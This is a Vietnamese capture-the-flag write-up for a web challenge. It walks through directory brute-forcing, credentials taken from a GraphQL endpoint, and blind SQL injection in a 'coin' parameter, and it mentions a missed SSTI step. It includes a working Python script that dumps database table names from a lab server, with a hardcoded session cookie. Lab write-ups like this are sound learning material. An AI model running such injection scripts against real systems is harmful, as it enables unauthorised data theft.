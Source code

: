 Trang web maze chỉ hiển thị 1 form đơn giản:

![image-20210124130203460](C:\Users\Admin\AppData\Roaming\Typora\typora-user-images\image-20210124130203460.png)

View source cũng không có gì, thử inject SQL đơn giản cũng không hiện thông báo lỗi, vậy còn cách cuối cùng là kiểm tra tất cả các URL path, giới thiệu các bạn tool [dirsearch](https://github.com/maurosoria/dirsearch) siêu hay này. 

OK sau khi chạy tool ta phát hiện có đường link `/robots.txt` trả về 200, đáng nhẽ phải tính đến cái này từ đầu mới phải. Truy cập vào `/robots.txt` thì nó tiết lộ 1 đường link khác nữa `/sup3r_secr37_@p1`. Vậy lại là GraphQL:

![image-20210124130912865](C:\Users\Admin\AppData\Roaming\Typora\typora-user-images\image-20210124130912865.png)

 các bước thao tác với graphQL tương tự như challenge `GraphQL 2.0`, ta lấy được `username`(như trên hình là `XFT`) và `password`(như trên hình là `iigvj3xMVuSI9GzXhJJWNeI`) để đăng nhập vào hệ thống:

![image-20210124131142284](C:\Users\Admin\AppData\Roaming\Typora\typora-user-images\image-20210124131142284.png)

Lại view source và lại không có gì đặc biệt, xem xét đến các panel XFT, BTC và ETH trên trang chủ, mỗi panel ứng với 1 đường dẫn `/trade?coin=[coin_name]` . Khi thử tham số coin với những tên không trùng với 3 tên coin có sẵn, nó hiện trang web với nội dung 

![image-20210128142622931](C:\Users\Admin\AppData\Roaming\Typora\typora-user-images\image-20210128142622931.png)

Thử SQL injection cơ bản bằng cách thêm dấu nháy đơn vào cuối URL, server trả về status code 500:

![image-20210128142725595](C:\Users\Admin\AppData\Roaming\Typora\typora-user-images\image-20210128142725595.png)

Đến đây nếu ai nhanh nhạy chắc sẽ đoán được ngay có vấn đề(không phải mình, mình thực sự đã mất cả 1 ngày để thử những hình thức khai thác khác như `param polution`,`IDOR` , ngu thực sự). Chỉ cần thêm kí tự comment ta sẽ thấy ngay đây là 1 dạng SQL injection:

![image-20210128143026465](C:\Users\Admin\AppData\Roaming\Typora\typora-user-images\image-20210128143026465.png)

Như vậy có thể kết luận: câu query đúng nó trả về coin `XFT`, query sai nó trả về `nothing here`, query không hợp lệ thì `500`

Đến đây lại thành bài toán khai thác blind SQL injection cơ bản rồi. Đây là đoạn script của mình để tự động dump ra tên các bảng trong database:

```python
import requests 
import string

concat_tbl_name = ''
index = 1
c = ''
url1 = "http://45.134.3.200:9000/trade?coin=xft%27%20and%20(substr((select%20group_concat(tbl_name)%20from%20sqlite_master),"
url2 = ",1))%20=%20%27"
cookies = {"session": "eyJsb2dnZWRfaW4iOnRydWV9.YBJhUA.rj2w_Rnu_l3IvdBpT6B68-kgXoQ"}
requests
while True:
    for c in string.printable:
        if c not in ['*', '+', '.', '?', '|', '#', '&', '$']:
            r = requests.get(url1 + str(index) + url2 + c, cookies=cookies)
            if 'XFT' in r.text:
                print("Found one more char : %s" % (concat_tbl_name + c))
                concat_tbl_name += c
                index += 1

```

Chạy đoạn script mất kha khá thời gian, kết quả ra:

![image-20210128144750430](C:\Users\Admin\AppData\Roaming\Typora\typora-user-images\image-20210128144750430.png)

Tiếp tục chỉnh sửa đoạn script thì sẽ lấy được username, password vào được admin panel, tưởng thế là xong, hóa ra vào đến nơi cũng chưa có gì nốt

![image-20210205083829985](C:\Users\Admin\AppData\Roaming\Typora\typora-user-images\image-20210205083829985.png)

View source code, để ý đến giá trị cookie, mỗi lần ta truyền vào đó 1 giá trị khác nhau thì dòng cuối cùng của đoạn tin nhắn trên cũng thay đổi: `show me what you got` + `cookie_value` Đến đây thì mình tịt hẳn, không biết làm thế nào để đi tiếp. 

Đợi đến khi end CTF đọc write-up mới biết đây là lỗ hổng SSTI, lỗi do mình sơ suất chưa thử những payload kiểu {{7*7}}, haizz. Thôi rút kinh nghiệm lần sau